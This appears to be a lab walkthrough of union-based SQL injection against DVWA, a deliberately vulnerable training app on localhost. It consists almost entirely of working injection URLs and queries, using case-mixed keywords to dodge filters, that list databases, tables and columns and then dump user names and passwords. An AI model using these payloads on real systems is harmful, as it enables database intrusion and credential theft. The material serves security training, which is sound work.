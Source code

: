 ### Extract database name

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,schema_name,0x7c)%20fRoM%20information_schema.schemata--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```

![DVWA_LOW_DB_NAME.png](Images/DVWA_LOW_DB_NAME.png)

### Extract tables from database

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,table_name,0x7c)%20fRoM%20information_schema.tables%20wHeRe%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,table_name,0x7c) fRoM information_schema.tables wHeRe table_schema='dvwa'
```

![DVWA_LOW_TABLENAME.png](Images/DVWA_LOW_TABLENAME.png)

### Extract column name from database

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema='dvwa'
```

or

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=database()--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema=database()
```

![DVWA_LOW_COLUMNNAME.png](Images/DVWA_LOW_COLUMNNAME.png)
Note: here column name can be from different table as well **comment_id** and **comment** is from **guestbook** table
So Craft payload accordingly for dumping full data

### EXTRACT data from table

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c)%20fRoM%20users--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c) fRoM users
```

![DVWA_LOW_DATA_DUMP.png](Images/DVWA_LOW_DATA_DUMP.png)
